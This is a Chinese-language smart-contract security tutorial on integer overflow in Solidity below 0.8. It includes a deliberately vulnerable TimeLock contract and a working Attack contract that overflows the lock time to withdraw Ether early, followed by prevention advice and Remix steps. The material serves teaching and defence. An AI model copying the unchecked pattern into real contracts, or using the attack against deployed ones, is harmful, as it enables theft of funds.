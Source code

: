 # Arithmetic Overflow and Underflow
##漏洞
### Solidity < 0.8
Solidity中的整数会发生溢出/下溢，但没有任何错误提示。
### Solidity >= 0.8
Solidity 0.8的默认行为是在发生溢出/下溢时抛出错误。


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;

// 这个合约被设计成一个时间保险箱。
// 用户可以向此合约存款，但至少需要等待一周后才能取款。
// 用户也可以延长等待时间超过一周。
/*
1. 部署TimeLock
2. 部署Attack，将TimeLock的地址传递给Attack
3. 调用Attack.attack发送1个以太币。您将立即能够取回您的以太币。

发生了什么？
攻击导致TimeLock.lockTime溢出，并在一周等待期结束之前取款。
*/

contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        如果t是当前锁定时间，则我们需要找到x，使得
        x + t = 2**256 = 0
        所以x = -t
        2**256 = type(uint).max + 1
        所以 x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```
##预防技术
使用SafeMath可以防止算术溢出和下溢。

Solidity 0.8默认情况下在发生溢出/下溢时会抛出错误。

## remix验证
1.部署TimeLock合约。部署Attack合约，并传递TimeLock合约的地址给它。
![67-1.jpg](img/67-1.jpg)